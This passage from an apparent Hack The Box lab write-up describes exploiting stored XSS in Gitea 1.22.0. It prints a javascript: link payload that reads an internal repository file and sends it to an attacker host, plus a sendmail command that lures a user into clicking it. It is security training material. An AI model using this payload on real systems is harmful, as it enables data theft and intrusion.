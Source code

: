 ## Exploiting Gitea

A known vulnerability in Gitea version 1.22.0 (Exploit-DB ID: [52077](https://www.exploit-db.com/exploits/52077)) allows for stored Cross-Site Scripting (XSS).

Given that internal communications instruct users to send repository links to `jobert@localhost`, we crafted a malicious payload to exploit this behavior and exfiltrate internal file content:

```html
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(data => data.text()).then(data => fetch('http://10.10.14.10:1337/?data=' + encodeURIComponent(data)));">Super repository</a>
```

This payload was embedded into a Gitea repository and referenced in an email to Jobert:

```bash
echo -e "Subject: Click Link\n\nhttp://localhost:3000/axel/random" | sendmail jobert@localhost
```

After several attempts, the XSS payload successfully executed and retrieved the content of the `index.php` file from the internal `Employee-management` repository.

The response included hardcoded credentials:

```php
<?php
$valid_username = 'admin';
$valid_password = '******************';
```

## Root Access

Using the recovered credentials, we authenticated as the `root` user and gained shell access.

![Root shell](/ctf/hack-the-box/machines/cat/root.png)

The root flag is located in the `/root/root.txt` file.
